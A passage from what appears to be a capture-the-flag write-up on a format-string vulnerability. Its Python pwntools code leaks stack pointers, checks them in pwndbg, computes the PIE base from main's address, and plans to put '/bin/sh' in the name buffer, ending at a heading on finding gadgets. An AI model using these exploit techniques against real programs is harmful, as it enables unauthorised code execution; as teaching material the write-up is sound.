 ```python

data = b""
i = 0
name_str = "bytebl33d"
for i in range(50):
   try:
      p = start()
      send_payload(f"%{i}$p".encode(), name=name_str)
      p.recvuntil(b"Your message:\n")
      data = p.recvuntil(b"\n")
      print(i, data)
      p.recvuntil(b"input: ")
      p.close()
   except EOFError:
      pass
```
We try looking for addresses starting with `0x55`, and we find a few that might be useful:
```
4 b'0x56168b3e66b5\n'
...
37 b'0x55cdf5071d90\n'
...
41 b'0x561bf357a6c0\n'
...
43 b'0x55e4378d139e\n'
```
We inspect them in gdb one by one and come to the following conclusions:
```console
# 41th address points to the beginning of our name input
pwndbg> x/s 0x561bf357a6c0
0x561bf357a6c0:	"bytebl33d"

# 43th address points to main+128
pwndbg> x 0x55e4378d139e
0x55e4378d139e <main+128>:	0x00fc45c7
```
Based on this information we can calculate the address of `main` and the address of our input buffer. The latter can be used to store our string to `/bin/sh\x00`. We add the following to our exploit script:
```python
def get_leak_address(index):
    send_payload("%{}$p".format(index))
    p.recvuntil(b"Your message:\n")
    data = p.recvuntil(b"\n")
    return int(data, 16)

print("main (symbols) @", context.binary.symbols["main"])
main_addr = get_leak_address(43) - 128
info(f'main_addr @ {hex(main_addr)}')

piebase = main_addr - context.binary.symbols["main"]
info(f'PIE base @ {hex(piebase)}')
```
With this code we can calculate the pie base address:
```console
$ python3 exploit.py 
main (symbols) @ 4894
[*] main_addr @ 0x55870bfb131e
[*] PIE base @ 0x55870bfb0000
```
### Finding useful instructions